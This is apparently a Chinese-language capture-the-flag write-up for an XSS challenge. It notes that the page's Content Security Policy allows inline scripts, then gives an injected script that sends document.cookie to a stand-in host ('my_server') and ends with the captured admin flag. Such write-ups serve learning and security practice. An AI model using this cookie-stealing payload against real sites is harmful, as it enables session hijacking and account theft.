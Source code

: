 XSS-1 400 points
================

题意
-------------

Are you good at XSS attack & CSP?

http://host:port

解题步骤
-------------

首先进去看了一下 CSP 限制的类型，为 `default-src 'self'; script-src 'self' 'unsafe-inline'` 。于是采用方法绕过了 CSP 的限制，拿到了 Cookie 。输入：

```
<script type="text/javascript">
var a=document.createElement("a");
a.href="http://my_server/?cookie="+escape(document.cookie);
a.click();
</script>
```

拿到 `Cookie: admin=THUCTF{BeVEn_CSP_you_G37_mY_C00K1e}`。